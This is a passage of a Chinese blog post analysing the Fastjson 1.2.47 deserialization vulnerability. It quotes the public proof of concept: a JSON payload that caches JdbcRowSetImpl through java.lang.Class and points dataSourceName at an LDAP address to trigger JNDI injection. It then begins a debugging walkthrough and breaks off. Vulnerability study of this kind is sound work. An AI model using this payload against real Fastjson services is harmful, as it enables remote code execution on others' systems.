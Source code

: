 ```yaml
---
title: FastJson历史漏洞研究（二）
tags: web漏洞分析
categories: 技术
top_img: 'https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg'
cover: https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/ab6dc70c42e0a86ec0ad3c83f72100e.jpg
date: 2020-09-17 14:29:36
---
```


<img src="https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/avatar.jpg" width="0" height="0" />

前言
----

本文衔接上一篇文章《FastJson历史漏洞研究（一）》，继续探讨一下FastJson的历史漏洞。这次将要介绍的是Fastjson 1.2.47版本存漏洞成因以及其利用方式。

Fastjson 1.2.47漏洞分析
-----------------------

Fastjson 1.2.47版本漏洞与上篇文章中介绍的几处漏洞在原理上有着很大的不同。与Fastjson历史上存在的大多数漏洞不同的是，Fastjson 1.2.47版本的漏洞利用在AutoTypeSupport功能未开启时进行

首先来看一下公开的poc

```java
public class demo {
    public static void main(String[] args) {
        String payload = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/ExecTest\",\"autoCommit\":true}}";
        Object obj = JSON.parseObject(payload);
        System.out.println(obj);
    }
}
```



从代码中可见，与以往利用不同的是，该poc中构造了两个json字符串

1、"a":{"\@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}

2、"b":{"\@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/ExecTest","autoCommit":true}

为了弄清楚这样构造的意义，我们来动态调试一下这个漏洞

程序首先解析第一个json字符串

### "a":{"\@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"} 解析过程

我们跳过部分FastJson解析流程，直接来看checkAutoType安全模块时的操作。对这个字符串中\@type字段进行校验
